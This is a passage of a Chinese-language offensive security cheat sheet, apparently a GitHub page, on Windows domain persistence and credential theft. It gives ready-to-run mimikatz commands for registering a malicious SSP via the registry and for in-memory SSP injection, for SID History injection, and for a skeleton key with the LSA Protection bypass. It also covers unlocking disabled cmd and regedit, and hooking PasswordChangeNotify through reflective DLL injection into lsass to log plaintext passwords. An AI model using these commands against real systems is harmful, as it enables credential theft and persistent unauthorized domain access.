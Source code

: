 ```sql
注册SSP DLL方式：
mimikatz提供mimilib.dll，并放到与lsass进程（System32）相同的位置C:\Windows\System32\
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ   //修改注册表项以包括新的安全支持提供程序mimilib
注册表已被篡改并且DLL存储在系统中，因此在重新启动后继续存在。当域用户再次通过系统进行身份验证时，将创建一个C:\Windows\System32\kiwissp.log文件，该文件将记录帐户的凭据。

内存注入方式：
（不需将mimilib.dll放入磁盘或修改注册表，重启后失效）
privilege::debug
misc::memssp
在用户再次通过系统认证时，会创建C:\Windows\System32\mimilsa.log文件，包含用户纯文本密码。

PS：除了使用mimikatz以外，也可以使用后渗透神器Empire或者powersploit来实现这两种方式。
```

### 10.sid history

每个用户帐号都有一个关联的安全标识符SID，作用是跟踪安全主体控制用户连接资源时的访问权限，也就是在域迁移过程中保持域用户的访问权限，如果迁移后用户的SID值改变，系统会将原来的SID添加到迁移后用户的SID History属性中，使迁移后的用户保持原有权限。我们的目的是使用mimikatz将SID History属性添加到任意用户的SID History属性中，以获得管理员权限。

```php
privilege::debug
sid::patch  //修复NTDS服务
sid::add /sam:hacker /new:administrator
sid::clear /sam:hacker  //清除SID History
```

### 11.skeleton key

将万能密码注入到lsass.exe中，域内所有用户的原密码和万能密码都可以登录，重启后失效。

```cpp
privilege::debug
!+                                          //绕过LSA Protection，需要导入驱动mimidrv.sys文件：https://github.com/gentilkiwi/mimikatz/blob/master/mimikatz/modules/kuhl_m_kernel.c
!processprotect /process:lsass.exe /remove  //绕过LSA Protection
misc::skeleton
之后可以用域内任意账号登录，万能密码默认为mimikatz

PS：mimikatz绕过cmd，regedit禁用：
privilege::debug
misc::cmd
misc::regedit
misc::taskmgr
```

### 12.hook passwordchangenotify

修改密码时，lsa会调用passwordfileter检查是否符合复杂性要求，之后调用passwordchangenotify在系统中同步密码。其中函数PasswordChangeNotify在rassfm.dll中。我们注入一个dll文件，hook掉passwordchangenotify，读取密码。

```cpp
使用HookPasswordChange.dll和HookPasswordChangeNotify.ps1（尾部添加Invoke-ReflectivePEInjection -PEPath HookPasswordChange.dll –procname lsass）
PowerShell.exe -ExecutionPolicy Bypass -File HookPasswordChangeNotify.ps1    //使用powershell运行脚本
在C:\Windows\Temp\passwords.txt中记录明文密码
```
